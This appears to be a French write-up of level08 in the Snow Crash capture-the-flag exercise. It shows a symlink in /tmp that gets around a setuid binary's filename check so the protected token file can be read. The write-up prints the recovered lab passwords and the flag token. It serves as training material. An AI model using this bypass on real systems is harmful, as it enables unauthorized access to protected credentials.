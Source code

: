 # Snow Crash – Level08

## 🎯 Objectif  
Accéder au contenu du fichier `token`, protégé et inaccessible directement, en contournant la vérification du nom de fichier.

---

## 📂 1. Fichiers fournis

```bash
level08@SnowCrash:~$ ls -l
-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
-rw-------  1 flag08 flag08    26 Mar  5  2016 token
```

- `level08` : exécutable avec les droits `flag08`
- `token` : fichier contenant le mot de passe, mais inaccessible

---

## 🧪 2. Analyse

```bash
level08@SnowCrash:~$ ./level08
./level08 [file to read]
```

Si on tente de lire `token` :

```bash
level08@SnowCrash:~$ ./level08 token
You may not access 'token'
```

Le programme bloque tout nom de fichier contenant `token`.

---

## 🧨 3. Contournement avec un lien symbolique

Créer un **lien symbolique** vers `token` avec un nom différent :

```bash
level08@SnowCrash:~$ ln -s /home/user/level08/token /tmp/ok
```

Exécuter ensuite avec le nouveau nom :

```bash
level08@SnowCrash:~$ ./level08 /tmp/ok
quif5eloekouj29ke0vouxean
```

---

## 🏁 4. Récupération du flag

Se connecter à l'utilisateur `flag08` avec ce mot de passe :

```bash
level08@SnowCrash:~$ su flag08
Password: quif5eloekouj29ke0vouxean
```

Puis exécuter :

```bash
getflag
```

**Résultat :**
```
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```

---

## ✅ Résumé

- 🔐 Mot de passe `flag08` : `quif5eloekouj29ke0vouxean`
- 🏆 Token `flag08` : `25749xKZ8L7DkSCwJkT9dyv6f`
- 🔑 Mot de passe `level09` : `25749xKZ8L7DkSCwJkT9dyv6f`
